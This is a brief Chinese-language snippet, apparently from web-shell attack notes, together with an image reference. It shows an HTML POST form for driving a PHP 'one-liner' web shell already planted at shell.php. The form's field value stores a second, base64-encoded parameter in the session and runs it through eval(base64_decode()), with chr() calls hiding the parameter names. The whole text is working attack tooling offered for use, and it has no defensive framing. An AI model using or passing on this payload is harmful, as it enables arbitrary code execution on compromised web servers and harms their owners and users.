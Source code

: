 #### 一句话插好后，写表单POST，如
##### xxxxx为base64加密的代码
```Bash
<form action="shell.php" method="POST">
 	<input type="text" name="1" value="@session_start();$_SESSION[chr(90)]=$_POST[chr(124)];@eval(base64_decode($_SESSION[chr(90)]));die();">
 	<input type="text" name="|" value="xxxxx">
 	<input type="submit" id="x">
 </form>
```